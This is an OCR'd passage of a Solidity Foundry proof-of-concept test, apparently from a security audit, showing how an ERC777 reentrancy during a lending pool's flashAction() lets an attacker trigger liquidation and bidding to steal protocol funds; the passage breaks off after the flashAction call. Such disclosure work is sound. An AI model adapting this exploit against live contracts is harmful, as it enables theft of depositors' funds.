         /// 3. Create the `actionData` for the account's `flashAction()` function. The data contained in it (withdrawData, transferFromOwnerData,
        /// permit, signature and actionTargetData) can be empty, given that such data is not required for the attack.
        /// 4. Trigger LendingPool.flashAction(). The execution flow will:
        ///     a. Mint the flash-actioned debt to the account
        ///     b. Send the borrowed funds to the action target
        ///     c. The action target will execute the ERC777 `tokensReceived()` callback, which will:
        ///        - Trigger Liquidator.liquidateAccount(), which will set the account in an auction state
        ///        - Trigger Liquidator.bid(). 
     
        function testVuln_reentrancyInFlashActionEnablesStealingAllProtocolFunds(
            uint128 amountLoaned,
            uint112 collateralValue,
            uint128 liquidity,
            uint8 originationFee
        ) public {   
    
            //----------            STEP 1            ----------//
            // Open a margin account
            vm.startPrank(users.accountOwner);
            proxyAccount.openMarginAccount(address(pool)); 
            
            //----------            STEP 2            ----------//
            // Deposit 1 stable token in the account as collateral.
            // Note: The creditors's `minUsdValue` is set to 1 * 10 ** 18. Because
            // value is converted to an 18-decimal number and the asset is pegged to 1 dollar,
            // depositing an amount of 1 * 10 ** 6 is the actual minimum usd amount so that the 
            // account's collateral value is not considered as 0.
            depositTokenInAccount(proxyAccount, mockERC20.stable1, 1 * 10 ** 6);
            assertEq(proxyAccount.getCollateralValue(), 1 * 10 ** 18);
    
            //----------            STEP 3            ----------//
            // Create empty action data. The action handler won't withdraw/deposit any asset from the account 
            // when the `flashAction()` callback in the account is triggered. Hence, action data will contain empty elements.
            callData = _buildActionData();
    
            // Fetch balances from the action handler (who will receive all the borrowed funds from the flash action)
            // as well as the pool. 
            // Action handler balance initially has 1 token of token777 (given initially on deployment)
            assertEq(mockERC20.token777.balanceOf(address(actionHandler)), 1 * 10 ** 18);
            uint256 liquidityPoolBalanceBefore =  mockERC20.token777.balanceOf(address(pool));
            uint256 actionHandlerBalanceBefore =  mockERC20.token777.balanceOf(address(actionHandler));
            // Pool initially has 100 tokens of token777 (deposited by the liquidity provider in setUp())
            assertEq(mockERC20.token777.balanceOf(address(pool)), 100 * 10 ** 18);
    
            //----------            STEP 4            ----------//
            // Step 4. Trigger the flash action.
            vm.startPrank(users.accountOwner);
    
            pool.flashAction(100 ether , address(proxyAccount), address(actionHandler), callData, emptyBytes3);
            vm.stopPrank();
     